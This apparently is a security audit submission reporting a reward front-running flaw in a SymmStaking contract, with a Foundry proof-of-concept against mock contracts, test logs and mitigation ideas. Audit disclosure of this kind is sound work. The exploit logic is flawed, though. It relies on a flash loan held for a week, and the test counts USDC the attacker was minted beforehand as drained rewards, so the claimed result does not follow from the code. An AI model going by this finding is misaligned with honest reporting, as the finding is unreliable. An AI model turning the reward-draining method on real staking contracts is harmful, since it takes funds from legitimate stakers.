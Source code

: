 Hot Tiger Locust

High

# Attacker will drain rewards from Legitimate stakers.



### Summary

The lack of a delay in SymmStaking.sol will cause a significant loss of rewards for legitimate stakers as an attacker will front-run the notifyRewardAmount transaction to inflate the totalSupply and claim a disproportionate share of the rewards."

### Root Cause

"In SymmStaking.sol lines 100-120, the notifyRewardAmount function immediately starts reward accrual based on the current totalSupply without any delay or lock period. This allows an attacker to deposit a large amount of SYMM tokens just before the reward notification, inflating the totalSupply and securing most of the rewards."

### Internal Pre-conditions

1.The totalSupply of staked SYMM tokens in SymmStaking needs to be relatively small (e.g., 1,000 SYMM) compared to the attacker’s potential deposit.

 2.The reward amount notified via notifyRewardAmount needs to be significant (e.g., 10,000 USDC) to incentivize the attack.

 3.The admin needs to call notifyRewardAmount without front-running protection (e.g., private mempool or off-chain coordination). 

### External Pre-conditions

1.SYMM liquidity on the Base network needs to be sufficient for the attacker to borrow a large amount of SYMM (e.g., 999,000 SYMM) via a flash loan.

2.The notifyRewardAmount transaction needs to be observable in the mempool or predictable (e.g., publicly scheduled).

### Attack Path

1.The attacker monitors the mempool for a pending notifyRewardAmount transaction from the admin.

2.The attacker calls deposit on SymmStaking with a large amount of SYMM tokens (e.g., 999,000 SYMM via a flash loan), increasing totalSupply from 1,000 to 1,000,000 SYMM.

3.The admin calls notifyRewardAmount, setting the reward rate based on the inflated totalSupply (1,000,000 SYMM).

 4.The attacker waits until the reward period ends (e.g., 1 week).

5.The attacker calls claimRewards to claim approximately 99.9% of the rewards (e.g., 9,990 USDC out of 10,000 USDC).

6.The attacker calls withdraw to retrieve their staked SYMM tokens and repays the flash loan

### Impact

The legitimate stakers suffer an approximate loss of 99.9% of their expected rewards. For example, with an initial totalSupply of 1,000 SYMM and 10,000 USDC in rewards, stakers would expect to share 10,000 USDC proportionally but receive only ~10 USDC (0.1%). The attacker gains 9,990 USDC from the stakers.

### PoC

```solidity
        
           contract SymmTest is Test {
            MockSymmStaking public staking;
              MockSymmVesting public vesting;
              MockSYMM public symm;
              MockUSDC public usdc;
               MockSYMMLP public symmLp;
                   MockPool public pool;
                MockRouter public router;
                   MockPermit2 public permit2;

             address public admin = address(this);
               address public user1 = address(0x1);
                 address public attacker = address(0x2);

              function setUp() public {
              symm = new MockSYMM();
        usdc = new MockUSDC();
        symmLp = new MockSYMMLP();
        pool = new MockPool(address(symm), address(usdc));
        router = new MockRouter(address(symmLp));
        permit2 = new MockPermit2();

        staking = new MockSymmStaking();
        staking.initialize(admin, address(symm));
        staking.configureRewardToken(address(usdc), true);

        vesting = new MockSymmVesting();
        vesting.initialize(admin, admin, address(pool), address(router), address(permit2), address(symm), address(usdc), address(symmLp));

        symm.mint(user1, 10_000 * 10**18);
        symm.mint(attacker, 1_000_000 * 10**18);
        usdc.mint(admin, 1_000_000 * 10**18);
        usdc.mint(attacker, 1_000_000 * 10**18);

        vm.startPrank(user1);
        symm.approve(address(staking), 10_000 * 10**18);
        staking.deposit(1_000 * 10**18, user1);
        vm.stopPrank();

        address[] memory users = new address[](1);
        users[0] = attacker;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 10_000 * 10**18;
        vesting.setupVestingPlans(address(symm), block.timestamp, block.timestamp + 1 weeks, users, amounts);
    }

            // [H-01] Reward Front-Running
               function test_H01_RewardFrontRunning() public {
               vm.startPrank(attacker);
               symm.approve(address(staking), 1_000_000 * 10**18);
               staking.deposit(999_000 * 10**18, attacker); // Flash loan simulation
               address[] memory tokens = new address[](1);
               uint256[] memory amounts = new uint256[](1);
               tokens[0] = address(usdc);
                  amounts[0] = 10_000 * 10**18;
                  vm.startPrank(admin);
                 usdc.approve(address(staking), 10_000 * 10**18);
                   staking.notifyRewardAmount(tokens, amounts);
                   vm.warp(block.timestamp + 1 weeks); // Wait full reward period
                   vm.startPrank(attacker);
                    staking.claimRewards();
                    uint256 reward = usdc.balanceOf(attacker);
                  assertGt(reward, 9_000 * 10**18, "Attacker should claim most rewards");
                   console.log("H-01: Attacker drained rewards:", reward / 1e18, "USDC");
}

        ...

        

Test Results:

   
forge test --match-test test_H01_RewardFrontRunning  -vvv
        [⠒] Compiling...
           No files changed, compilation skipped

       Ran 1 test for test/SymmTest.t.sol:SymmTest
       [PASS] test_H01_RewardFrontRunning() (gas: 288765)
       Logs:
       H-01: Attacker drained rewards: 1009989 USDC

       Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.97ms (836.80µs CPU time)

       Ran 1 test suite in 39.37ms (2.97ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
   ```

### Mitigation

To prevent this attack:

        1.Introduce a delay (e.g., 24 hours) between notifyRewardAmount and the start of reward accrual, giving legitimate stakers time to react.

        2.Implement a staking lock period (e.g., 1 day) where newly deposited tokens cannot claim rewards immediately, disincentivizing flash loan attacks.

        3.Use a commit-reveal scheme for reward notifications, where the admin commits to a reward amount privately and reveals it later, making front-running harder. 